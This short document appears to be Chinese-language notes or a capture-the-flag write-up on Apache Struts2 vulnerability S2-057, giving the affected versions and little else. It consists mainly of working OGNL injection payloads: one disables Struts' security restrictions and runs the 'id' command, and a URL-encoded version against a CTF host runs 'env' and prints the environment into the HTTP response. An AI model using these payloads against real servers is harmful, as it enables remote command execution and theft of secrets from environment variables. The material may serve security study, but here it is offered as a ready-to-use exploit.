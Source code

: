 ![image](img/s2-053.png)

**S2-057**

影响版本:<= Struts 2.3.34, Struts 2.5.16

payload

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

```
http://node3.buuoj.cn:29922/struts2-showcase/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27env%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/actionChain1.action
```
